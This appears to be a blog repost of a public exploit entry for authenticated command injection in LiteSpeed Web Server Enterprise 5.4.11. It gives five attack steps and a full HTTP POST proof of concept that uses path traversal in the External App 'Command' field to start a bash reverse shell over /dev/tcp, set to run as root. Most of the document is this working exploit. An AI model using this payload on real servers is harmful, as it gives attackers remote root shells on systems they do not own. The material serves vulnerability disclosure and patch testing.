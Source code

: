 ```yaml
---
layout: post
title: LiteSpeed Web Server Enterprise 5.4.11 - Command Injection (Authenticated)
date: 2021-02-07 00:00:01 +5:30
categories: [Medium]
tags: [Bug, Exploit] # add tag
---
```


# Exploit Title: LiteSpeed Web Server Enterprise 5.4.11 - Command Injection (Authenticated)
# Date: 05/20/2021
# Exploit Author: cmOs - SunCSR
# Vendor Homepage: https://www.litespeedtech.com/
# Software Link: https://www.litespeedtech.com/products
# Version: 5.4.11
# Ubuntu/Kali Linux


Step 1: Log in to the dashboard using the Administrator account.
Step 2 : Access Server Configuration > Server > External App > Edit
Step 3: Set "Start By Server *" Value to "Yes (Through CGI Daemon)
Step 4 : Inject payload "fcgi-bin/lsphp5/../../../../../bin/bash -c 'bash -i >& /dev/tcp/127.0.0.1/1234 0>&1'" to "Command" value
Step 5: Graceful Restart

[POC]

```bash
POST /config/confMgr.php HTTP/1.1
Host: 192.168.1.6:7080
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:85.0) Gecko/20100101
Firefox/85.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*
;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer:
https://192.168.1.6:7080/config/confMgr.php?m=serv&p=ext&t=A_EXT_FCGI&r=file&a=E&tk=0.59220300%201612516386
Content-Type: application/x-www-form-urlencoded
Content-Length: 505
Origin: https://192.168.1.6:7080
Connection: close
Cookie: LSWSWEBUI=85fa7ba9b37d18d57e41e092a2a2a61f;
lsws_uid=j%2FsI8GRiKBc%3D; lsws_pass=c7pC2izvdbQ%3D
Upgrade-Insecure-Requests: 1

name=file&address=127.0.0.1%3A5434&note=&maxConns=2000&env=&initTimeout=1&retryTimeout=1&persistConn=1&pcKeepAliveTimeout=20&respBuffer=0&autoStart=1&path=fcgi-bin%2Flsphp5%2F..%2F..%2F..%2F..%2F..%2Fbin%2Fbash+-c+%27bash+-i+%3E%26+%2Fdev%2Ftcp%2F192.168.1.6%2F1234+0%3E%261%27&backlog=&instances=&extUser=root&extGroup=root&umask=&runOnStartUp=3&extMaxIdleTime=&priority=&memSoftLimit=&memHardLimit=&procSoftLimit=&procHardLimit=&a=s&m=serv&p=ext&t=A_EXT_FCGI&r=file&tk=0.59220300+1612516386&file_create=
```
